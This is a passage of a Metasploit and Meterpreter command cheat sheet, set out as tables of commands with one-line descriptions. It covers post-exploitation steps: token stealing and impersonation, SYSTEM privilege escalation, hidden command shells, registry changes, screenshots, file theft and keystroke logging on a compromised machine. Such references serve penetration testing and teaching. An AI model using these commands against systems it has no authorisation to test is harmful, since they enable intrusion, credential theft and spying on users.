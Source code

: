 | `sessions -u <sessionID>`                        | Upgrade a normal Win32 shell to a Meterpreter console.       |
| `db_create <name>`                               | Create a database to use with database-driven attacks (example: db_create autopwn). |
| `db_connect <name>`                              | Create and connect to a database for driven attacks (example: db_connect autopwn). |
| `db_nmap`                                        | Use Nmap and place results in a database. (Normal Nmap syntax is supported, such as –sT –v –P0.) |
| `db_destroy`                                     | Delete the current database.                                 |
| `db_destroy  <user:password@host:port/database>` | Delete database using advanced options.                      |

------

## Meterpreter Commands

| **Command**                                           | **Description**                                              |
| ----------------------------------------------------- | ------------------------------------------------------------ |
| `help`                                                | Open Meterpreter usage help.                                 |
| `run <scriptname>`                                    | Run Meterpreter-based scripts; for a full list check the scripts/meterpreter directory. |
| `sysinfo`                                             | Show the system information on the compromised target.       |
| `ls`                                                  | List the files and folders on the target.                    |
| `use priv`                                            | Load the privilege extension for extended Meterpreter libraries. |
| `ps`                                                  | Show all running processes and which accounts are associated with each process. |
| `migrate <proc. id>`                                  | Migrate to the specific process ID (PID is the target process ID gained from the ps command). |
| `use incognito`                                       | Load incognito functions. (Used for token stealing and impersonation on a target machine.) |
| `list_tokens -u`                                      | List available tokens on the target by user.                 |
| `list_tokens -g`                                      | List available tokens on the target by group.                |
| `impersonate_token <DOMAIN_NAMEUSERNAME>`             | Impersonate a token available on the target.                 |
| `steal_token <proc. id>`                              | Steal the tokens available for a given process and impersonate that token. |
| `drop_token`                                          | Stop impersonating the current token.                        |
| `getsystem`                                           | Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors. |
| `shell`                                               | Drop into an interactive shell with all available tokens.    |
| `execute -f <cmd.exe> -i`                             | Execute cmd.exe and interact with it.                        |
| `execute -f <cmd.exe> -i -t`                          | Execute cmd.exe with all available tokens.                   |
| `execute -f <cmd.exe> -i -H -t`                       | Execute cmd.exe with all available tokens and make it a hidden process. |
| `rev2self`                                            | Revert back to the original user you used to compromise the target. |
| `reg <command>`                                       | Interact, create, delete, query, set, and much more in the target’s registry. |
| `setdesktop <number>`                                 | Switch to a different screen based on who is logged in.      |
| `screenshot`                                          | Take a screenshot of the target’s screen.                    |
| `upload <filename>`                                   | Upload a file to the target.                                 |
| `download <filename>`                                 | Download a file from the target.                             |
| `keyscan_start`                                       | Start sniffing keystrokes on the remote target.              |
| `keyscan_dump`                                        | Dump the remote keys captured on the target.                 |
| `keyscan_stop`                                        | Stop sniffing keystrokes on the remote target.               |